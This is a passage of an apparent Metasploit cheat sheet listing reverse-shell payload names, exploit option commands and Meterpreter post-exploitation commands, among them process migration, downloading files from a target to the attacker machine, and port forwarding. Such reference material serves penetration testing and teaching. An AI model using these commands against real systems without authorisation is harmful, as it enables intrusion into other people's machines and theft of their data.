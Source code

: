 ### Common Payloads:
```
windows/meterpreter/reverse_tcp     # Windows Meterpreter reverse TCP
linux/x86/meterpreter/reverse_tcp   # Linux Meterpreter reverse TCP
windows/shell/reverse_tcp           # Simple Windows command shell
cmd/unix/reverse_python             # Python-based reverse shell
```

### Exploit Options:
```
show targets          # Show available targets for current exploit
set TARGET <number>   # Select specific target
show payloads         # Show compatible payloads
set PAYLOAD <payload> # Select specific payload
check                 # Check if target is vulnerable without exploiting
```

## Post-Exploitation

### Meterpreter Basics:
Once you have a Meterpreter session, you can:
```
help                  # Show available commands
getuid                # Show current user
sysinfo              # Show system information
ps                    # Show running processes
migrate <PID>         # Migrate to another process
```

### File System Operations:
```
pwd                   # Print working directory
ls                    # List files
cat <file>            # Display file contents
download <file>       # Download file to attacker machine
upload <file>         # Upload file to target
edit <file>           # Edit a file
```

### Network Commands:
```
ipconfig              # Show network configuration
netstat -ano          # Show network connections
portfwd add -l 3389 -p 3389 -r 192.168.1.100  # Port forwarding
```

### Managing Sessions:
```
background            # Background current session
sessions -l           # List all sessions
sessions -i <ID>      # Interact with specific session
sessions -k <ID>      # Kill a session
```
